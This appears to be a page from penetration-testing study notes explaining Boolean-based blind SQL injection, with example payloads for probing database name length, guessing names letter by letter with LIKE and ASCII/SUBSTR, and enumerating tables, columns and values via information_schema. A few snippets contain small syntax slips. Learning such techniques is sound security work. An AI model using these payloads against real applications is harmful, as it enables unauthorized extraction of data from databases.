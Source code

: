 # Boolean-based SQLi

[Go back](../sql.md)

<div class="row row-cols-lg-2"><div>

Boolean-based SQLi involve injecting SQL bit by bit while only having one output: ok or failed.

For instance, if you have a page telling you if a user exists. If this page return "true" for a username `toto`:

```text!
GET /account?username=toto
```
</div><div>

If you try to inject some SQL "`toto' AND 1=0-- -`"

```text!
GET /account?id=toto' AND 1=0-- -
```

The response will indicate that the username does not exist, but as you know it exists from the previous request, we can infer that the trailing injected code failed (`AND 1=0-- -`).
</div></div>

<hr class="sep-both">

## Manual Boolean-based SQLi

<div class="row row-cols-lg-2"><div>

Manually exploiting a Boolean-based SQLi is hard and lengthy. You will do exactly what we do during [Union-based SQL](union_sqli.md#manual-union-based-sqli), aside from the fact that you work letter by letter.

* **Number of columns selected** - unchanged
* **Find the type of each column** - unchanged
* **Find which columns are displayed** - unchanged
* **Find the DBMS used** - letter by letter
* **Extract data** - letter by letter

➡️ All examples below are with `database()`, but you will have to use comparisons to find the DMBS, the database, the table, the columns, and even to extract the values in the table.

Before testing each letter, we should check the length of the text you want to guess to mentally prepare ourselves. 

```text!
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

Then, we may use `LIKE` to rather easily find the name:

```text!
' AND database() LIKE '%' -- - // test; should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```
</div><div>

There may be multiple databases starting with the same letter. To know if there are more, you have to exclude the one you found.

```text!
' AND database() != 'my_example' AND database() LIKE 'my_%' -- -
[...]
```

For some conditions, you may use something like this:

```text!
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```

You can't always use LIKE, and may have to fall back to ASCII.

```text!
WHERE ASCII(SUBSTR(text,1,1) = ASCII('a')
-- extract the first character (pos=1, len=1)
-- of a text 'text'. Convert the character to ASCII
-- and, check if this is the same as the ASCII of 'a'

-- find the ASCII (do it inside YOUR DBMS)
SELECT ASCII('A') -- 65

-- then use
WHERE ASCII(SUBSTR(text,1,1)) = 65
-- some are using "65 to HEX" = X'41'
WHERE SUBSTR(text,1,1) = CAST(X'41' as char)
```
</div></div>